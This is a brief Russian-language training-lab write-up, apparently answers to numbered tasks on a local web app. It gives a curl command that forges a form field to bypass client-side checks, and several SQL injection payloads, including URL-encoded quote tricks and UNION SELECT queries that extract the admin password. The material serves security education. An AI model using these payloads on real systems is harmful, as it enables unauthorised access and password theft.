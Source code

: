 ### Задание 2

Обойти клиентскую защиту с помощью curl.
	curl "http://192.168.200.100:8080/signin" \
	--data-raw "name=Ksenia&pass=asdfgh&banned=true"


### Задание 3

Обойти защиту с помощью кодирования кавычки в альтернативный формат 
(Url encoded).

	%27 OR 1=1;--


### Задание 4

Обойти защиту с помощью кодирования кавычки в альтернативный формат (Url encoded) и получить пароль из БД.

	%27 union select pass from users where name = %27admin%27--

Инъекция в числовом параметре 

    -1 UNION SELECT 1, pass FROM users WHERE name = %27admin%27--

Union select Injection

    ' UNION SELECT null, (SELECT name || '--' || pass
    FROM users WHERE name = %27admin%27--), null FROM dual --